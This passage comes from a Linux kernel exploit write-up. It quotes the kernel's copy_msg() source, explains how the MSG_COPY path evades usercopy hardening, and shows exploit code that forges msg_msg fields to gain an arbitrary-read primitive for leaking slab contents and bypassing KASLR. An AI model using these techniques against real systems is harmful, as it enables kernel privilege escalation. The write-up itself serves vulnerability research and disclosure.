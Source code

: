 
- [ipc/msgutil.c:copy_msg()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/ipc/msgutil.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n118)
```c
struct msg_msg *copy_msg(struct msg_msg *src, struct msg_msg *dst)
{
	struct msg_msgseg *dst_pseg, *src_pseg;
	size_t len = src->m_ts;
	size_t alen;

	if (src->m_ts > dst->m_ts)
		return ERR_PTR(-EINVAL);

	alen = min(len, DATALEN_MSG);
	memcpy(dst + 1, src + 1, alen);

	for (dst_pseg = dst->next, src_pseg = src->next;
	     src_pseg != NULL;
	     dst_pseg = dst_pseg->next, src_pseg = src_pseg->next) {

		len -= alen;
		alen = min(len, DATALEN_SEG);
		memcpy(dst_pseg + 1, src_pseg + 1, alen); // [1]
	}

	dst->m_type = src->m_type;
	dst->m_ts = src->m_ts;

	return dst;
}
```
Note that since the routines of `msgrcv` syscall used `memcpy`[1] rather than `copy_to_user` when the `MSG_COPY` flag is set, the overread across the boundary is not hindered even though `CONFIG_USERCOPY_HARDENED` is enabled. For your information, `CONFIG_USERCOPY_HARNDED` enables the mitigation that stops kernel overread with `copy_to_user`.

### 6.5 KASLR leak

In this step, with the achieved heap leaks, the exploit leaks a kernel base address to bypass KASLR.
- [exploit/extra-refined/exploit.c#L870](../exploit/extra-refined/exploit.c#L870)
```c
// re-reclaim with msg_msgseg to trigger free of 64-sized msg_msg
printf("[+] re-reclaim for 1k slab leak!\n");
memset(buf, 0, sizeof(buf));
buf_ptr = (uintptr_t)buf - 48;
// write the fake size
*(uintptr_t *)(buf_ptr + 0x1000) = 0;                                      // mlist.prev
*(uintptr_t *)(buf_ptr + 0x1000 + 8) = 2;                                  // m_type
*(uintptr_t *)(buf_ptr + 0x1000 + 0x10) = 0x1100;                          // m_ts
*(uintptr_t *)(buf_ptr + 0x1000 + 0x18) = small_msg_msg_addr + 0x400 - 48; // msg_msg->data  + 0x400 - 48 == msg_msgseg!

// PG_SIZE - sizeof(struct msg_msg) - TARGET_SIZE - sizeof(struct msg_msgseg)
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqid3, msg, 1, 1, IPC_NOWAIT | MSG_NOERROR);
if (ret < 0)
	perror("msgrcv");
if (send_msg(msgqid3, buf, 0x1000 + (CG_MSG_MSG_SIZE - 0x10) - 48 - 8, 1) < 0)
	perror("msgsnd");
```
The `next` field of `struct msg_msg` points to the `struct msg_msgseg` object and can be used for arbitrary read & free. We utilize this arbitrary read primitive to leak `kmalloc-cg-1k` slab contents with leaked slab address.
